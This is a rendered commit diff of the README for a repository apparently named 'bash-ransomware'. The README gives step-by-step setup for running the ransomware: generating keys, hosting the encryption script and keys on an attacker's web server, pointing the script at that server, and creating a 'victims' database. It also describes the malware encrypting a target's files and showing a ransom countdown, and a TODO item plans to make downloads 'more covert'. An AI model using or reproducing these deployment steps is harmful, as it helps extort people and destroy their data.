

Before and after one commit to SubtleScope/bash-ransomware, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -11,15 +11,17 @@
  - $ openssl rsa -pubout -in priv.pem -out pub.pem
  - $ cat /dev/urandom | tr -cd 'A-Za-z0-9' | fold -w 4096 | head -n 1 > key.bin
  - $ mkdir -p /var/www/html/downloads
- - > Modify crypto.sh to reflect your web server address or IP
- - $ cp crypto.sh /var/www/html/downloads/
  - $ cp pub.pem /var/www/html/downloads/
  - $ cp key.bin /var/www/html/downloads/
+ - > Modify crypto.sh and replace the IPwith your web server's IP/URL
+ - $ cp crypto.sh /var/www/html/downloads/
+ - > Copy all of the ransomware files to /var/www/html
+ - > You should have all of the php files in the root of your web dir (/var/www/html/)
+ - > You should also have /var/www/html/images/ and /var/www/html/scripts/
+ - $ cd /var/www/html/downloads
  - $ python -m SimplHTTPServer 8080 &
- - $ mv dec_auth.php /var/www/html/
- - $ mv target.php /var/www/html/
- - $ mv query.php /var/www/html/
- - > Modify decrypt.php, query.php, and target.php with your database information (Plan to create one file that can be referenced in each)
+ - $ cd ../
+ - > Modify admin.php, admin_query.php, decrypt.php, query.php, and target.php with your database information
  - > Next, create the database for storing the data
  - $ mysql -u [user] -p
  - $ create database victims;
@@ -34,12 +36,14 @@
 
 ## What it does
  - Downloads the public key and key file to the target
+ - Move DB settings into a common.php file and refer to that file ineach of the scripts (One place to edit instead of numerous places)
  - Loops through the system and encrypts the various files
  - Deletes the key file and leaves the public key
  - Prints the ransom message
  - Links to web pages where the user can see an active countdown of the time that is left before key deletion
 
 ## TODO
+ - Configure script to download over https, more covert
  - Add in error handling for non-existing files
  - Imporve functionality and capabilities
  - Add persistent ransom demand
```
Also changed, not shown: images/hacked.jpg (renamed from hacked.jpg), images/hacker.jpg (renamed from hacker.jpg), 10 other files.
